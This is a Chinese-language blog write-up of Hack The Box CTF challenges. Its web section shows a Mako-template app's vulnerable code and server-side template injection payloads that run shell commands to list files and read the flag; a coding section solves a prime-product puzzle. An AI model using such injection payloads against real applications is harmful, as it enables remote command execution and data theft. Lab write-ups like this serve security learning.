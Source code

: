 ```yaml
---
title: "HTB-CTF Challenge做题记录"
description: "HTB-Challenge，HTB的一些类型题目，比较深入全面，方向也是比较广泛的，没事儿去学习了一下"
date: "2025-08-30"
tags:
  - "HTB"
  - "CTF"
  - "WEB"
  - "Coding"
  - "MOBILE"
  - "CRYPTO"
  - "REVERSE"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "htb-challenge"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">


# HTB-CTF-记录

## WEB

### Spookifier 间谍工具

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
> 最近出现了一种能为你生成恐怖名字的应用。该应用的用户后来发现他们的真实姓名也被神奇地更改了，导致生活陷入混乱。你能帮忙让这个应用下线吗？

直接定位到漏洞点

```python
from mako.template import Template


def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)

```

直接渲染了，并且是Mako引擎

```
${7*7}
```

![image-20250831121956207](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831121958413.png)

```
${__import__('os').popen('ls').read()}
${__import__('os').popen('cat /fla*').read()}
```

得到flag





## Coding

### Primed for Action 

> Intelligence units have intercepted a list of numbers. They seem to be used in a peculiar way: the adversary seems to be sending a list of numbers, most of which are garbage, but two of which are prime. These 2 prime numbers appear to form a key, which is obtained by multiplying the two. Your answer is the product of the two prime numbers. Find the key and help us solve the case.
> 情报单位截获了一份数字列表。它们似乎以一种特殊的方式使用：对手似乎在发送一份数字列表，其中大部分是垃圾数据，但有两项是质数。这两个质数似乎组成了一把密钥，通过将这两个数相乘获得。你的答案是这两个质数的乘积。找到密钥并帮助我们破解案件。

就是写一个算法

```python
# take in the number
n = input()

nums = list(map(int, n.split()))

def is_prime(x: int) -> bool:
    if x < 2:
        return False
    if x % 2 == 0:
        return x == 2
    i = 3
    while i * i <= x:
        if x % i == 0:
            return False
        i += 2
    return True

# 找两个质数
primes = [x for x in nums if is_prime(x)]

# 计算乘积
ans = primes[0] * primes[1]

# print answer
print(ans)
```
![image-20250831120324987](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831122737951.png)